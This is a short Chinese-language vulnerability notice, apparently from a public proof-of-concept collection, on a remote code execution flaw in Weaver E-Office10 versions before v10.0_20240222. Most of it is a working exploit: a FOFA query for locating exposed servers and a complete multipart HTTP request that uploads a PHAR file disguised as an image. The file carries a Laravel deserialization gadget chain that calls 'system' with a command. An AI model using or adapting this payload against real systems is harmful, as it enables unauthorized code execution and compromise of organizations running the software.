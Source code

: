 ## 泛微E-Office10版本小于v10.0_20240222存在远程代码执行漏洞

漏洞的关键在于系统处理上传的PHAR文件时存在缺陷。攻击者能够上传伪装的PHAR文件到服务器，利用PHP处理PHAR文件时自动进行的反序列化机制来触发远程代码执行。

## 影响版本
```
v10.0_20180516 < E-Office10 < v10.0_20240222
```


## fofa
```
app="泛微-EOffice"
```


## poc
```
POST /eoffice10/server/public/api/attachment/atuh-file HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 523
Accept: string("*/*")
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=ifedjiqy

--ifedjiqy
Content-Disposition: form-data; name="Filedata"; filename="register.inc"
Content-Type: image/jpeg

GIF89a<?php __HALT_COMPILER(); ?>
D.....................O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{s:9:".*.events";O:25:"Illuminate\Bus\Dispatcher":1:{s:16:".*.queueResolver";s:6:"system";}s:8:".*.event";O:38:"Illuminate\Broadcasting\BroadcastEvent":1:{s:10:"connection";s:37:"echo 9yM86ESyFBXNDwCh6Nbsxy9wrcQrP25P";}}....test.txt....K..f.....~..........test.).i..f3....2pq....>....GBMB
--ifedjiqy--
```

